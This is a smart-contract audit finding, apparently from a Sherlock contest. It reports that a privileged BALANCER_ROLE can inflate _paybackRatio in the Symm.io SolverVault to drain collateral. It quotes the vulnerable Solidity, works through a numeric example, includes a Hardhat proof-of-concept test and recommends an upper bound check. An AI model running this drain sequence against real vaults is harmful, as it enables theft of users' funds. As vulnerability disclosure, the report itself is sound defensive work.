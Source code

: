 Acrobatic Walnut Halibut

high

# Malicious `BALANCER_ROLE` `_paybackRatio` abuse.

## Summary
Malicious `BALANCER_ROLE` can abuse the `_paybackRatio` to  drain all  `collateralToken`  from vault.

## Vulnerability Detail
```solidity
function acceptWithdrawRequest(
        uint256 providedAmount,
        uint256[] memory _acceptedRequestIds,
        uint256 _paybackRatio // <- Inflate
    ) external onlyRole(BALANCER_ROLE) whenNotPaused {
        IERC20(collateralTokenAddress).safeTransferFrom(
            msg.sender,
            address(this),
            providedAmount
        );
        require(
            _paybackRatio >= minimumPaybackRatio, 
            "SolverVault: Payback ratio is too low"
        );
        uint256 totalRequiredBalance = lockedBalance;

        for (uint256 i = 0; i < _acceptedRequestIds.length; i++) {
            uint256 id = _acceptedRequestIds[i];
            require(
                id < withdrawRequests.length,
                "SolverVault: Invalid request ID"
            );
            require(
                withdrawRequests[id].status == RequestStatus.Pending,
                "SolverVault: Invalid accepted request"
            );
            totalRequiredBalance +=
                (withdrawRequests[id].amount * _paybackRatio) /
                1e18;
            withdrawRequests[id].status = RequestStatus.Ready;
            withdrawRequests[id].acceptedRatio = _paybackRatio; // <- Set as acceptedRatio
        }

        require(
            IERC20(collateralTokenAddress).balanceOf(address(this)) >=
                totalRequiredBalance,
            "SolverVault: Insufficient contract balance"
        );
        lockedBalance = totalRequiredBalance;
        emit WithdrawRequestAcceptedEvent(
            providedAmount,
            _acceptedRequestIds,
            _paybackRatio
        );
    }
```
The  `_paybackRatio` can be inflated to allow withdraw of arbitrary amount of `collateralToken` by the `withdrawRequest.receiver`.

```solidity
function claimForWithdrawRequest(uint256 requestId) external whenNotPaused {
        require(
            requestId < withdrawRequests.length,
            "SolverVault: Invalid request ID"
        );
        WithdrawRequest storage request = withdrawRequests[requestId];

        require(
            request.status == RequestStatus.Ready,
            "SolverVault: Request not ready for withdrawal"
        );

        request.status = RequestStatus.Done;
        uint256 amount = (request.amount * request.acceptedRatio) / 1e18; // <- Used to calculate collateralToken to transfer
        lockedBalance -= amount;
        IERC20(collateralTokenAddress).safeTransfer(request.receiver, amount);
        emit WithdrawClaimedEvent(requestId, request.receiver);
    }
```

## Impact
This allows a malicious `BALANCER_ROLE` to `drain all collateralToken` via `deposit` -> `requestWithdraw` -> `acceptWithdrawRequest with inflated _paybackRatio` -> `claimForWithdrawRequest` loop.

Eg. Given :
 - `solverVaultTokenDecimals == 8` 
 -  `collateralTokenDecimals  == 6` 
 - `500e6 ` `collateralToken in vault` (500 tokens). 
 
A `requestWithdraw` for `100` (sets `withdrawRequest.amount` to `1`) ,  with  `acceptWithdrawRequest._paybackRatio` of `5e26`, will drain all `collateralToken` in vault.


_POC: Add under `acceptWithdrawRequest` test_

```javascript
describe("_paybackRatio Inflate", function () {
            const requestId = 0
            const requestIds = [0]
            let lockedBalance: bigint

            // Inflated _paybackRatio
            const paybackRatio = decimal(500, 24n)


            // Withdraw 1 amount
            beforeEach(async function () {
                await solverVault.connect(user).requestWithdraw(100, await receiver.getAddress())
                lockedBalance = (await solverVault.withdrawRequests(0)).amount * paybackRatio / decimal(1)

            })

            it("Accept withdraw request and claim withdraw", async function () {
                // Withdraw Request is accepted with inflated paybackRatio
                await expect(solverVault.connect(balancer).acceptWithdrawRequest(0, requestIds, paybackRatio))
                    .to.emit(solverVault, "WithdrawRequestAcceptedEvent")
                    .withArgs(0, requestIds, paybackRatio)
                let request = await solverVault.withdrawRequests(0)

                expect(request[1]).to.equal(1)                
                expect(request[2]).to.equal(RequestStatus.Ready)
                expect(request[3]).to.equal(paybackRatio)
                expect(await solverVault.lockedBalance()).to.equal(request.amount * paybackRatio / decimal(1))


                // Attacker claims collateral            
                await expect(solverVault.connect(receiver).claimForWithdrawRequest(requestId))
                        .to.emit(solverVault, "WithdrawClaimedEvent")
                        .withArgs(requestId, await receiver.getAddress())
                request = await solverVault.withdrawRequests(0)    
                
                expect(request[2]).to.equal(RequestStatus.Done)
                expect(await collateralToken.balanceOf(await receiver.getAddress())).to.equal(lockedBalance)
                console.log()
            })
                        
        })
``` 

![ScreenShot Tool -20240105011355](https://github.com/sherlock-audit/2023-12-symm-io-117l11/assets/113766971/aaf7b081-cbd0-4e4c-9578-d29bc3919b5e)


## Code Snippet
https://github.com/sherlock-audit/2023-12-symm-io/blob/60ee22a4c598220821385cfb5eee43f40aafd5f1/solver-vaults/contracts/SolverVaults.sol#L262
https://github.com/sherlock-audit/2023-12-symm-io/blob/60ee22a4c598220821385cfb5eee43f40aafd5f1/solver-vaults/contracts/SolverVaults.sol#L295

## Tool used

Manual Review

## Recommendation
Add upper bound checks for `_paybackRatio`.
